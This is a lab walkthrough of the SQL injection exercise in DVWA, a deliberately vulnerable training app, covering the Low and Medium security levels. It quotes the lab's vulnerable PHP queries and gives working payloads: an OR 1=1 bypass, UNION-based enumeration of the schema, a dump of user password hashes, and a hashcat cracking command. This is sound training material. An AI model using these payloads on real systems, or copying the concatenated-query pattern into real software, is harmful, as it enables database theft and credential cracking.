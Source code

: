 # SQL Injection
## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql1.png?raw=true">
</p>

Inserting `1'` will return a 500 Internal Server Error.

Visiting the source code we can find:
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
    // Get values
    $first = $row["first_name"];
    $last  = $row["last_name"];

    // Feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 
```

We can see that the `'$id'` is not verified, so we can inject the following: `1' OR 1=1;#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql2.png?raw=true">
</p>

With this payload we bypass the query using the quote symbol and add the logic operator OR, which will make the query to choose between the id given or a true statement such as 1=1.
The pound sign `#` is used to comment the rest of the query.

So, the query executed will look like this:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#;"
```

To further exploit this vulnerability we can use the UNION method to extract more information:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT @@version, null#;"
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql8.png?raw=true">
</p>

Now we got the version of the database.
First, we need to enumerate the columns using `UNION SELECT null,null`, and we add null values until we will get a valid response.
Keep in mind that `@@version` syntax will only work for MySQL dbs.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql9.png?raw=true">
</p>

Using `database()` function we can find the name of the database.
Now we can enumerate the tables, the columns and extract the values.
For the next queries I changed the syntax a little bit.

```sql
1' UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa'#
```	

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql10.png?raw=true">
</p>

```sql
1' UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql11.png?raw=true">
</p>

```sql
1' UNION SELECT null,group_concat(user,':',password SEPARATOR '<br>') FROM users#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql12.png?raw=true">
</p>

We can use `hash-identifier` in order to find the hash format, and then we will brute-force it using `hashcat`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql13.png?raw=true">
</p>

```
hashcat -m 0 password /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql14.png?raw=true">
</p>

## Medium Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql3.png?raw=true">
</p>

For the Medium security level we can not change the value of the parameter directly from the UI, but we can use a Proxy tool like Burp Suite to modify the HTTP request.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql4.png?raw=true">
</p>

We will add the payload without the quote because now the $id is treated as integer. Then we URL encode the payload and send it.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql5.png?raw=true">
</p>

Source code:
```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
    // Display values
    $first = $row["first_name"];
    $last  = $row["last_name"];

    // Feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
```